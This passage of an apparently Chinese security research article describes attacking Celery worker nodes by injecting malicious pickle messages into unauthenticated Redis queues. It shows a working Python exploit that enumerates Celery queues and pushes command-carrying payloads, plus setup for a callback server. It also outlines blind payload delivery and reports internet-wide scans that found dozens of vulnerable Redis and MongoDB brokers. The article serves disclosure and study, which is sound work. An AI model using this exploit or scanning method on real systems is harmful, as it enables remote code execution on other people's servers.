 ```python
        ip, port = seed.split(':')
    except ValueError as ex:
        ip, port = seed, 6379
    r = redis.Redis(ip, int(port), socket_connect_timeout=5)
    keys = r.keys()
    info = dict(succeed=False, keys=list())
    for key in keys:
        matched = re.search(r'^_kombu\.binding\.(?P<queue>.*)', key)
        if matched:
            queue_name = matched.group('queue')
            message = create_evil_message(
                create_evil_task_body(evil_command.format(queue_name))
            )
            r.lpush(queue_name, message)

exp('192.168.99.100')
```

为了测试攻击脚本，首先需要在 `192.168.99.100` 上开启 Redis 服务并配置为外部可连且无需验证，然后在本地起一个 SimpleHTTPServer 用于接收节点执行命令的请求，最后可直接通过终端配置 Broker 为 Redis 起一个默认的 worker：

```
celery worker --broker='redis://:@192.168.99.100/0'
```

整个过程演示：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/15.gif)

可以看到通过往消息队列中插入恶意消息，被分布式节点 worker 获取解析后触发了反序列化漏洞导致了远程命令执行。

### 四、互联网案例检测

上一节内容通过实际的代码和演示过程说明了如何通过特征去验证消息队列中间件是否作为了 Celery 分布式框架的一部分，那么互联网中是否真的存在这样的实例呢。这里再次理一下针对 Celery 分布式节点攻击的思路：

1. 找寻那有着未授权访问且用于 Celery 消息队列传递的中间件服务；
2. 往消息队列中插入恶意消息数据，因无法确定目标是否允许进行 `pickle` 方式序列化，所以会进行 Payload 盲打；
3. 等待分布式节点取走消息进行解析，触发反序列化漏洞执行任意代码；

首先针对第一点，利用脚本去扫描互联网中存在未授权访问且用于 Celery 消息队列传递的 Redis 和 MongoDB 服务。通过扫描得到未授权访问的 Redis 有 **14000+** 个，而未授权访问的 MongoDB 同样也有 **14000+** 个。

针对 **14000+** 个存在未授权访问的 Redis 服务使用上一节的验证脚本（`celery_broker_redis_check.py`）进行批量检测，得到了 **86** 个目标满足要求，扫描过程截图：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/16.png)

同样的针对 **14000+** 个存在未授权访问的 MongoDB 服务进行批量检测，得到了 **22** 个目标满足要求，扫描过程截图：

![]({{ site.url }}/public/img/article/2016-09-22-attacking-distributed-nodes-by-message-queue-injection/17.png)

根据结果来看，虽然最终满足条件的目标数量并不多，但是这足以说明利用消息注入对分布式节点进行攻击的思路是可行的，并且在消息队列中间件后面有多少个 worker 节点并不知道，危害的不仅仅是 Broker 而是后面的整个节点。
